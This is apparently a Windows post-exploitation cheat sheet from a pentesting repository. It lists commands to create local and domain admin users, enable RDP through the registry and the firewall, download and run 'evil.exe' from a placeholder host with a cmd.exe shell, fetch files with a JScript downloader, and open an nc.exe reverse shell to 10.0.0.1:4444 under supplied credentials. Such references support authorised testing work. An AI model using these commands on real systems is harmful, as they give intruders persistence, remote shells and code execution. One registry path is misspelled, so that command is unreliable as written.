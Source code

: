 # Windows

## users

Add user 
```
net user [username] [password] /ADD
```

Add user to domain 
```
net user [username] [password] /ADD /DOMAIN
```

Add user as admin
```
net localgroup administrators [username] /add
```

## RDP
- Enable RDP
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

- Add firewall authorisation
```
netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow 
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the 
Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes 
profile=private,domain localport=3389 protocol=tcp
```

- Connect to windows RDP
```
rdesktop -g 95% -u user -p password 10.0.0.1 -r disk:share=/ftphome
```

## File Upload

- PowerShell download and execute
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile 
New-Object System.Net.WebClient.DownloadFile('http://x.x.x.x/evil.exe','evil.exe'); 
evil.exe x.x.x.x 443 -e cmd.exe
```

- VBS file upload
  - fu.js
```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1"); 
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false); 
WinHttpReq.Send(); 
WScript.Echo(WinHttpReq.ResponseText); 
```
  - execute
```
cscript /nologo fu.js http://ip/bullshit > uploaded_file
```

## Change user
- userchange.ps1
```powershell
$secpasswd = ConvertTo-SecureString "passwordhere" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("usernamehere", $secpasswd)
$computer = "Hostnamehere"
 [System.Diagnostics.Process]::Start("c:\temp\nc.exe","10.0.0.1 4444 -e cmd.exe",$mycreds.Username, $mycreds.Password, $computer)
```
- execute as
```
powershell -ExecutionPolicy Bypass -File c:\temp\change_user.ps1
```


